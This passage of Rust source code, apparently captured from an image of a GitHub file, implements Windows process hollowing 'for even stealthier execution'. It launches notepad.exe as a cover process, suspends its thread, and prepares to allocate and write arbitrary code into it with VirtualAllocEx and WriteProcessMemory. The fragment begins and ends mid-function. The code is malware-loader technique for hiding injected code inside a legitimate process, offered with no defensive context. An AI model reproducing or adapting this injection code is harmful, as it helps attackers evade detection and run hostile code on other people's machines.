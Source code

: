 ```rust
                Err(_) => Err("Fiber execution failed".into())
            }
        },
        Err(e) => Err(e.into())
    }
}

// Process hollowing with fibers for even stealthier execution
#[cfg(target_os = "windows")]
unsafe fn execute_via_fiber_hollowing(code: &[u8]) -> Result<(), Box<dyn Error>> {
    use std::ffi::CString;
    use windows_sys::Win32::System::Diagnostics::Debug::WriteProcessMemory;
    use windows_sys::Win32::System::Threading::{
        CreateProcessA, PROCESS_INFORMATION, STARTUPINFOA,
        DETACHED_PROCESS, ResumeThread, SuspendThread,
        THREAD_ALL_ACCESS
    };
    use windows_sys::Win32::System::Memory::{
        VirtualAllocEx, VirtualProtectEx,
        MEM_COMMIT, MEM_RESERVE, PAGE_READWRITE, PAGE_EXECUTE_READ
    };
    use windows_sys::Win32::Foundation::{CloseHandle, GetLastError, FALSE};
    
    if code.is_empty() {
        return Err("Empty code".into());
    }
    
    // Target legitimate process
    let target_process = CString::new("C:\\Windows\\System32\\notepad.exe").unwrap();
    let mut startup_info: STARTUPINFOA = mem::zeroed();
    let mut process_info: PROCESS_INFORMATION = mem::zeroed();
    let creation_flags = DETACHED_PROCESS;
    let mut old_protection = 0u32;
    let mut number_of_bytes_written = 0usize;
    
    startup_info.cb = mem::size_of::<STARTUPINFOA>() as u32;
    
    // Create process in suspended state
    let result = CreateProcessA(
        ptr::null(),
        target_process.as_ptr() as *mut u8,
        ptr::null_mut(),
        ptr::null_mut(),
        FALSE,
        creation_flags,
        ptr::null_mut(),
        ptr::null(),
        &mut startup_info,
        &mut process_info,
    );
    
    if result == 0 {
        let error = GetLastError();
        return Err(format!("Failed to create target process: {}", error).into());
    }
    
    // Suspend the main thread
    let result = SuspendThread(process_info.hThread);
    if result == 0xFFFFFFFF {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to suspend thread: {}", error).into());
```